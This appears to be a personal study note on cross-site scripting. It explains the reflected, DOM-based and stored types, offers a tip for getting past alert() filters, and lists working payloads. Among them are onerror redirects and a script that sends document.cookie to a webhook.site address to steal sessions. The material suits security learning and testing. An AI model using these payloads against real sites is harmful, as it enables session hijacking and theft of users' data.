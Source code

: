 # XXS (Cross site scripting)

Who: Attacker, Victim

What: Payload made of JavaScript

Where: Victim’s browser, Web server

How: Victim click on malicious URL, page to trigger. Causing their session to be controlled or data to be stolen

Attacker execute JavaScript in the victim’s browser, can give attacker’s control over the application for that user.

Use `print()` `prompt("text")` instead of `alert()` since `alert()` is commonly detected and filtered.

When testing for XXS, test for html injection first because it’s more likely to work
E.g., <h1>test</h1>

# Reflected

Inject payload into the HTTP request. And once the web server receive the request, it will response with the payload to sender’s browser. It relies on URL to make user fall for the attack.

# Dom-Based

Client-side has vulnerable JavaScript. It doesn’t involve with the server-side, completely rely on client’s browser to execute the payload.

One quick check is turn on the developer tool, and input simple prompt or alert script, see if there’s any network interaction with the server.

<aside>
🚨

Inspecting Network page in the developer tab while sending input, there’s no external communication happens.

</aside>

### Page Redirect

src=x onerror="window.location.href='<$url>'"

# Store

Payload is stored in the database, and victim’s browser will retrieve it once it visit the page.

1. In the attacker’s browser leave html injection comment: <h1>test</h1>.
2. Visit the same page from victim’s browser

![image.png](image.png)

src=x onerror="window.location.href='https://webhook.site/8a2dda28-4ada-4424-889e-a911bd5e8489'"

<script>alert(document.cookie)</script>

<script>var x = new Image; x.src="https://webhook.site/8a2dda28-4ada-4424-889e-a911bd5e8489/?"+document.cookie;</script>